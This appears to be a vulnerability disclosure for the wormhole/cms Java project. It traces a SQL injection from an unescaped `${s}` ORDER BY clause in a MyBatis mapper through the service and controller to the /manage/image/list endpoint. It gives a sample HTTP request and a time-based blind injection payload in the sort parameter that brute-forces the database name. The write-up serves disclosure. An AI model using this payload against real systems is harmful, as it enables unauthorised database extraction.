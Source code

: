 **BUG_Author:**

hadagaga

**Vendor:**

https://github.com/wormhole/cms

**Software:**

https://github.com/wormhole/cms

**Vulnerability File:**

src/main/resources/mapper/UploadMapper.xml

```xml
    <select id="selectWithQuery" resultMap="baseMap">
        select * from `upload`
        <include refid="where"/>
        <if test="sortWrapper != null and sortWrapper.size() > 0">
            order by
            <foreach collection="sortWrapper.entrySet()" index="s" item="o" separator=",">
                `${s}` ${o}
            </foreach>
        </if>
        <if test="offset != null and limit != null">
            limit #{offset}, #{limit}
        </if>
    </select>
```

​	Let's go back up:

```java
    @Override
    @Transactional(rollbackFor = Exception.class)
    public PageResponse<UploadDTO> findImageByPage(Integer page, Integer limit, String sort, String order, String key, String userId) {
        QueryWrapperBuilder builder = new QueryWrapperBuilder();
        if (StringUtils.isEmpty(sort) || StringUtils.isEmpty(order)) {
            builder.sort("ts", "desc");
        } else {
            builder.sort(sort, order);
        }
        builder.eq("type", FileTypeConst.T_IMAGE);
        builder.eq("user_id", userId);
        builder.like(!StringUtils.isEmpty(key), key, Arrays.asList("name", "path"));
        builder.page((page - 1) * limit, limit);
        QueryWrapper wrapper = builder.build();

        List<Upload> uploads = uploadDAO.selectWithQuery(wrapper);
        Integer total = uploadDAO.countWithQuery(wrapper);

        List<UploadDTO> dtos = new ArrayList<>();
        for (Upload upload : uploads) {
            UploadDTO dto = new UploadDTO();
            BeanUtils.copyProperties(upload, dto);
            dto.setUsername(userService.findById(dto.getUserId()).getUsername());
            String path = SysUtils.pwd() + dto.getPath();
            if (SysUtils.isWin()) {
                path = path.replace("/", "\\");
            } else {
                path = path.replace("\\", "/");
            }
            dto.setAbsolutePath(path);
            dtos.add(dto);
        }

        return new PageResponse<>(total, dtos);
    }
```

​	You can see that the parameters are put into the object and passed into the query method.

```java 
    @GetMapping(value = "/list")
    public ResponseEntity<Result<PageResponse<UploadDTO>>> queryPage(
            @RequestParam(value = "page") @Min(value = 1, message = "page不能小于1") Integer page,
            @RequestParam(value = "limit") @Min(value = 1, message = "limit不能小于1") Integer limit,
            @RequestParam(value = "sort", required = false) String sort,
            @RequestParam(value = "order", required = false) String order,
            @RequestParam(value = "key", required = false) String key) {

        PageResponse<UploadDTO> response = uploadService.findImageByPage(page, limit, sort, order, key, super.getUserId());
        return ResponseEntity.status(HttpStatus.OK).body(Result.success(response));
    }
```

​	Then we only need to construct the following packet:

```http
GET /manage/image/list?page=1&limit=10&sort=id&order=desc HTTP/1.1
Host: 172.23.192.1
Cookie: JSESSIONID=FDA8E97A658F3DE8725A3002F1A847E6
Sec-Ch-Ua-Platform: "Windows"
Authorization: Bearer eyJ1aWQiOiIzYTEzOGJhYS0yYWZhLTQwZWMtOGVlMy03NjEyNTg2Y2UzZmIiLCJ0cyI6IjE3MzQzMTM2MDYyNjcifQ==.MGE2M2JlZTE2MmViNDVjYjY4ZTc1NDk2ZjQzOWVlZmI=
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0
Accept: application/json, text/plain, */*
Sec-Ch-Ua: "Microsoft Edge";v="131", "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://172.23.192.1/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=1, i
Connection: close


```

​	Reconstruct payload:

sort:

```sql
id%60,if(length((select%20database()))%5e1,sleep(0.5),1),%60id
```

order:

```sql
desc
```

​	Blast with the BP Blasting Module:

![image-20241216115635882](img/image-20241216115635882.png)

​	After processing the data, the database name is obtained:

![image-20241216115701645](img/image-20241216115701645.png)
